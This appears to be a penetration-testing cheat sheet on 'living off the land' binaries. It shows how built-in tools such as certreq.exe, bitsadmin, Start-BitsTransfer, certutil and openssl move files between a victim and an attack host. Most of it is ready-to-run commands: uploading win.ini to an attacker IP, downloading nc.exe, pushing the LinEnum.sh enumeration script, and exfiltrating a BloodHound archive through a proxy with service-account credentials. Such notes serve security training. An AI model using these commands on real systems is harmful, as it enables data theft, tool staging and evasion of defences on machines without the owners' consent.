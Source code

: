 # Living Off the Land

LOLBINs can be used to perform functions such as:

	- Download
	- Upload
	- Command Execution
	- File Read
	- File Write
	- Bypasses

`CertReq.exe` as an example: We need to listen on a port from our attack host 
for incoming traffic using Netcat and then execute certreq.exe to upload a file.

## Upload win.ini to our Attacking Machine
```
certreq.exe -Post -config http://192.168.1.128/ C:\Windows\win.ini
```

## File Received.

Create an x509 certificate with openssl:
```bash
openssl req -newkey rsa:4096 -nodes -keyout key.pem -x509 -days 90 -out certificate.pem
openssl s_server -quiet -accept 9001 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Connect on client-end:
```bash
openssl s_client -connect 10.10.14.124:9001 -quiet > LinEnum.sh
```

## Bitsadmin

### Download
```bash
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Windows\Temp\nc.exe
```

### Upload
```bash
Start-BitsTransfer "
C:\Temp\Bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip"

-TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 
-ProxyCredential INLANEFREIGHT\svc-sql
```

## Certutil

Download
```
certutil -verifyctl -split -f http://10.10.124.90/nc.exe
```

